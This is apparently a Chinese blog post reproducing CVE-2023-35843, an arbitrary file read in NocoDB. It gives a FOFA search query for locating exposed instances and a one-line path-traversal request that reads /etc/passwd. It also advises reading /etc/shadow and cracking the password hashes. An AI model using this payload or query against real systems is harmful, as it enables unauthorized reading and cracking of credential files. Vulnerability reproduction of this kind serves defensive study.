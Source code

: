 # 原创
：  漏洞复现--NocoDB 任意文件读取(CVE-2023-35843)

# 漏洞复现--NocoDB 任意文件读取(CVE-2023-35843)

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担！**

### 一：漏洞描述

NocoDB 是 Airtable 的开源替代方案，可以“一键”将 MySQL、PostgreSQL、SQL Server、SQLite 和 MariaDB 转换为智能电子表格。此软件存在任意文件读取漏洞。

### 二：漏洞影响版本

version&lt;=0.106.1

### 三：网络空间测绘查询

fofa:<br/> icon_hash=“-2017596142”<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/bccc246440f0095317850a67348bbe54.jpeg"/>

### 四：漏洞复现

poc

```
GET /download/..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/e1f05096f167a4b619cb4b3bc56221a6.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/e2301b699c07447c9ecbf46476b99e4b.jpeg"/>

### 五：漏洞利用

可通过读取/etc/shadow读取到加密后的用户名密码，解密后进行后续测试工作
